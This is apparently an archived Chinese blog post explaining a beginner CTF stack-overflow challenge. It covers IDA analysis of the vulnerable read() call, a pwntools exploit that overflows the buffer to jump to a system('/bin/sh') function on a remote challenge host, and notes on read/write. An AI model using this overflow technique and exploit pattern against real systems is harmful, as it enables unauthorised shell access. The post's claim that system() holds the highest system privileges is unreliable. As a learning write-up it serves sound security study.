






<!--yml
category: 未分类
date: 2022-04-26 14:52:13
-->

# CTF|栈溢出入门题level0解题思路及个人总结_一个不融化的雪人的博客-CSDN博客_栈溢出ctf

> 来源：[https://blog.csdn.net/skyattractive/article/details/106463904](https://blog.csdn.net/skyattractive/article/details/106463904)

# CTF|栈溢出入门题level0解题思路及个人总结

## 解题思路

file 查看文件信息：elf、64位、小端序、可执行

拿到题目简单运行一下，发现还是一如既往的简单

拖入64位IDA中反编译

发现vulnerable（指脆弱的、有漏洞的）function 双击打开

func中定义了char型的buf，大小从rbp到rsp共占80个字节
read()函数读入到标准输入设备两百个字节（远大于buf所占空间大小）存在栈溢出
双击buf看它在栈中的位置

发现在0x0之后，可以将system函数写入r所在的位置从而实现攻击

编写exp

```
from pwn import*
p = remote('124.126.19.106',55849)

callsys_addr = 0x0000000000400596
sys_addr   = 0x0000000000400460
binsh_addr = 0x0000000000400684

payload = 'a'*0x88 + p64(callsys_addr)

p.recvuntil("Hello, World")
p.sendline(payload)

p.interactive() 
```

ls —cat flag后


## 个人总结

### 有关read（）和write（）

常见的形式是read(0,buf,10)含义是**从标准输入中读取十个字节到buf，即将我们输入的十个字节给buf**
同样地，write（1,buf,8）的含义**是从buf中读取八个字节到标准输出**
0指标准输入设备|1表示标准输出设备

system()函数简单的来说，它**拥有系统的最高权限**，它和**“/bin/sh”**连在一起则可以给我提供一个类似cmd的东西，我们可以用它来进行查看/修改/操作等动作。

博客内容仅是个人学习对知识的理解，如有不对的地方欢迎指正

期待与你的共同进步：）